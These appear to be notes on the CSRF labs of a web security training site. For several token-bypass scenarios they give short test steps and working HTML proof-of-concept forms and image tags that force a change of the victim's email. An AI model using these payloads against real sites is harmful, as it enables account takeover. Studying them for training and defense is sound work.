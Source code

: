 # CSRF
## Scenarios
### No Defense
```html
<form method="POST" action="https://ac741ff11f938fe1801459c7009e0090.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="test@myemail.com">
</form>
<script>
document.forms[0].submit();
</script>
```

***

### CSRF where token validation depends on request method
#### Test
- Change request method
#### POC
```html
<img src="https://ac9a1f8f1e76e13f80360e0e009400d7.web-security-academy.net/my-account/change-email?email=test%40myemail.com">
```

***

### CSRF where token validation depends on token being present
#### Test
- Remove token from request and see if it passes
#### POC
```html
<form method="POST" action="https://ac741ff11f938fe1801459c7009e0090.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="test@myemail.com">
</form>
<script>
document.forms[0].submit();
</script>
```

***

### CSRF where token is not tied to user session
#### Test
- Get a fresh csrf token from the update email page via inspecting the source
- Open a private/incognito browser window, log in to your other account, and intercept the update request
- replace the csrf token with the one captured earlier
#### POC
```html
<form method="POST" action="https://ac001fe61f576f3b808b0f7100fd0037.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test@myemail.com">
    <input type="hidden" name="csrf" value="KdhHWIn09SrZyjySlgfaHCS9TzXB0iss">  
    </form>
    <script>
    document.forms[0].submit();
    </script>
```